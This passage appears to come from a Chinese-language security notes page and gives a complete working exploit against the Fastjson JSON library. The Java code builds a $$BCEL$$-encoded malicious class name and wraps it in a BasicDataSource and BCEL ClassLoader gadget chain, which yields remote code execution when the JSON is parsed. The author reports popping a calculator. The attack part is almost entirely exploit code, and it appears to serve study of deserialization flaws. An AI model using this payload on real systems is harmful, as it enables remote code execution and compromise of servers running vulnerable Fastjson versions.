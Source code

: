 ### 完整EXP

```java
package BCEL;

import classLoader.Class2Bytes;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import org.apache.bcel.classfile.Utility;

import java.io.File;
import java.util.LinkedHashMap;
import java.util.Map;

public class fastjsonRCE {
    public static void main(String[] args) throws Exception {
        // 构造BCEL特定格式的名称字符串
        byte[] bytes = new Class2Bytes().class2bytes(new File("src/main/java/BCEL/evilClass.class"));
        String ClassName = "$$BCEL$$" +  Utility.encode(bytes, true);
        System.out.println(ClassName);
        // 创建一个Map对象, 用于存储要序列化的数据
        Map<String, Object> exp = new LinkedHashMap<>();
        exp.put("@type", "org.apache.commons.dbcp.BasicDataSource");
        exp.put("driverClassName",ClassName);
        // 创建Map对象，存放BCELclassloader
        Map<String, Object> bcel = new LinkedHashMap<>();
        bcel.put("@type", "org.apache.bcel.util.ClassLoader");
        
        exp.put("driverClassLoader", bcel);
        String strExp = JSON.toJSONString(exp);
        System.out.println(strExp);
        JSONObject jsonObject = JSON.parseObject(strExp);
        System.out.println(jsonObject);


    }
}
```

### 结果

看到弹出计算机成功

![image-20250211082606750](https://gitee.com/ling-x5/img/raw/master/image-20250211082606750.png)


参考文章

https://www.javasec.org/javase/ClassLoader/






















